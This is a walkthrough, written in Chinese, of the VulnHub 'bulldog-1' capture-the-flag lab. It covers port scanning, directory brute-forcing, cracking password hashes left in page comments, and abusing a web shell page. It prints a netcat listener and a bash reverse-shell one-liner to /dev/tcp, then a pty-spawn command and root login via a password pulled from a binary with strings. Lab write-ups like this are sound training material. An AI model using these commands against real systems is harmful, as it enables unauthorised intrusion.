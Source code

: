 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
使用VirtualBox開啟虛擬機，可自動取得靶機ip，利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態  
DirBuster爆破目錄，發現在/dev/中的source code有提示

> Need these password hashes for testing. Django's default is too complex  
We'll remove these in prod. It's not like a hacker can do anything with a hash

把註解中的password拿去sha1 decode，求出nick跟sarah的password，試探用database(sarah)去登/admin/，成功，但無編輯權限  
發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功  
攻擊機:`nc -l 3333`  
靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`  
查看可疑user，發現bulldogadmin和django，查看bulldogadmin文件，發現可疑目錄/home/bulldogadmin/.hiddenadmindirectory
從note中發現提示

> Literally run the app, give your account password

用strings查看customPermissionApp，發現奇怪字眼  
`SUPERultH  
imatePASH  
SWORDyouH  
CANTget`  
研究了一下，刪掉H之後:  
`SUPERultimatePASSWORDyouCANTget`  
得到一串很像是密碼的東西，但並不確定，su試試，先解決error問題  
`python -c 'import pty;pty.spawn("/bin/bash")'`  
嘗試登入root帳號，密碼登入成功，回到/root目錄發現congrats.txt文件  

`cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!`
